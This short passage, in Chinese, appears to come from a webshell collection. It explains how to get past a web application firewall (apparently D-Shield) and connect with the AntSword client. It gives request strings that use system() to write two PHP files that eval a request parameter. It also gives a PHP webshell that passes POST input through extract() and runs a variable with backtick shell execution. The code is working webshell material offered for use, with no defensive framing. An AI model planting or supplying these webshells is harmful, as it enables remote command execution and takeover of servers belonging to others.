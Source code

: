 
---





---

### 过D，但需要多次操作才可蚁剑连接

以下马都需要在挂上后执行二次操作，如：
```php
?shell=system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
?shell=system('echo ^<?php include("1.php");eval(shell); ?^>>2.php');
```
然后使用蚁剑去连接`2.PHP`。



**extract 变量**

```php
<?php  
$a=1;
$b=$_POST;
extract($b);
print_r(`$a`)
?>
```